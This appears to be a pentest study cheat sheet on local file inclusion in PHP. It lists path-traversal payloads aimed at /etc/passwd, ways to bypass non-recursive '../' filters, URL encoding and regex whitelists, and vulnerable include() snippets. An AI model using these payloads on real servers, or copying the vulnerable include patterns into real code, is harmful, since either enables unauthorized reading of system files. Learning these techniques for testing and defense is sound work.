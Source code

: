 | @Html.Partial()          | ✅           | ❌      | ❌         |
| @Html.RemotePartial()    | ✅           | ❌      | ✅         |
| Response.WriteFile()     | ✅           | ❌      | ❌         |
| include                  | ✅           | ✅      | ✅         |

# Basic LFI

- `/etc/passwd` if `include($_GET['language'])`
- `../../../etc/passwd` if `include("./languages/" . $_GET['language']);`
- `/../../../etc/passwd` if `include("lang_" . $_GET['language']);`

# Basic Bypasses

## Non-recursive path traversal filters

```php
$language = str_replace('../', '', $_GET['language']);
```
- filter is not recursively remove the `../` substring, so
- `....//....//....//etc/passwd`
- `..././..././..././etc/passwd`
- `....\/....\/....\/etc/passwd`

## Encoding

- some web filters may prevent input filters that include certain LFI-related characters such as dot `.` or slash `/` 
- URL encode 
- `%2e%2e%2f%2e%2e%2f%2e%2e%2f` for `../../../`

## Approved Paths

- some apps may use Regular Expressions 
- eg
```php
if (preg_match('/^\.\/language\/.+$/', $_GET['language'])) {
  include($_GET['language']);
} else {
  echo 'Illegal path specified!';
}
```

- `./languages/../../../../etc/passwd`

## Appended Extensions 

- obsolete with modern versions of PHP and only work with PHP versions before 5.3/5.4
